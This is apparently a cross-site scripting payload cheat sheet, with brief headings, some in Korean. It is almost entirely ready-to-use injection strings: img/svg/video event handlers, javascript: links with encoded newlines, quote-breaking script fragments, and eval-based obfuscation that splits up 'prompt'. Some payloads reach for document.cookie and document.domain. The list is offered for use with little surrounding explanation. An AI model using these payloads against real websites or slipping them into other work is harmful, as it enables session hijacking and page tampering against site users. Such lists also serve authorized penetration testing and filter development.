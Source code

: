 # XSS

**Basic**
```
"><img src=x onerror=alert()>
```

**Button**
```javascript
<Button href="javascript://%0aalert(123)">
XSS with %0a
</Button>
<Button href="javascript://%0dalert(document.domain)">
XSS with %0d
</Button>
```

**A tag**
```
"><a href="javascript:alert(0)">click here</a>
```

**Creat Page(게시판,링크,)**
```
javascript://%0aalert(1)
```

**이중 XSS**
```javascript
">]<img src=x onerror=alert(document.domain)> ">]<img src=x onerror=alert(document.cookie)>
```

```
"-prompt(8)-"
'-prompt(8)-'
";a=prompt,a()//
';a=prompt,a()//
'-eval("window['pro'%2B'mpt'](8)")-'
"-eval("window['pro'%2B'mpt'](8)")-"
"onclick=prompt(8)>"@x.y
"onclick=prompt(8)><svg/onload=prompt(8)>"@x.y
0\"autofocus/onfocus=alert(1)--><video/poster/onerror=prompt(2)>"-confirm(3)-"
```

```
'';!--"<XSS>=&{()}
\";alert('XSS');//
'); alert('XSS
'); alert('xss'); var x='
\\'); alert(\'xss\');var x=\'
‘; alert(1);
‘)alert(1);//
', alert(document.location), '
```

```
<marguee/onstart=alert(1)>
```
